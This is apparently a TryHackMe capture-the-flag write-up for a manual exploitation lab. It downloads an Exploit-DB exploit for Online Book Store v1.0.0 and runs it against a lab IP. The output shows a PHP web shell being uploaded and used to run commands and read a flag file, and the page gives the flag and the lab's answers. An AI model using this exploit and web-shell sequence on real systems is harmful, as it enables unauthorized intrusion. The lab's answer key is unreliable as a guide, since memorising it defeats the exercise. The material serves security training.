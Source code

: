 `Task 5 - Practical: Manual Exploitation `

```bash
wget https://www.exploit-db.com/download/47887

python3 47887 "http://10.10.40.207/" 
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.40.207/bootstrap/img/LVafk6z5Hi.php
> Example command usage: http://10.10.40.207/bootstrap/img/LVafk6z5Hi.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ whoami
www-data

RCE $ ls
LVafk6z5Hi.php
OyWjgNLIbq.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg

RCE $ cat flag.txt
THM{BOOK_KEEPING}


```


###	Find out the version of the application that is running. What are the name and version number of the application?
`online book store v1.0.0`

###	Now use the resources and skills from this module to find an exploit that will allow you to gain remote access to the vulnerable machine.
https://www.exploit-db.com/exploits/47887

###	Use this exploit against the vulnerable machine. What is the value of the flag located in a web directory?
THM{BOOK_KEEPING}